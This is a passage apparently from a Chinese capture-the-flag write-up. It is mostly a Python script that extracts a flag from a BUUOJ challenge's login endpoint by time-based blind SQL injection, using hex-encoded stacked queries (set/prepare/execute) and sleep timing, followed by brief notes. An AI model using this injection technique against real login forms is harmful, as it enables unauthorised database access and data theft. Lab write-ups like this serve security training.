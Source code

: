 ```
 import requests
import json
import time

def main():
    url = 'http://44213eba-8d88-4f93-98fa-769b3e1a4f23.node3.buuoj.cn/index.php?r=Login/Login'
    payloads = "a';set @a=0x{0};prepare ctftest from @a; execute ctftest-- -"
    flag = ''
    for  m in range(30):
        print("前{0}位".format(m))
        payload = "select if (ascii(substr((select group_concat(flag) from flag), {0}, 1))={1}, sleep(4), 1)"      
        for n in range(0, 128):
            datas = {'username': payloads.format(str_to_hex(payload.format(m, n))), 'passwd': 'test'}
            datas = json.dumps(datas)    

            times =  time.time()
            res = requests.post(url = url, data = datas)
            if time.time() - times >= 3:
                flag+=chr(n)
                print(flag)
                break

def str_to_hex(s):
    return ''.join([hex(ord(c)).replace('0x', '') for c in s])                              

if __name__ == '__main__':
    main() 
```

最后得到
flag = "xxx.zip"一个压缩文件，一个简单的MVC

首先确定flag的位置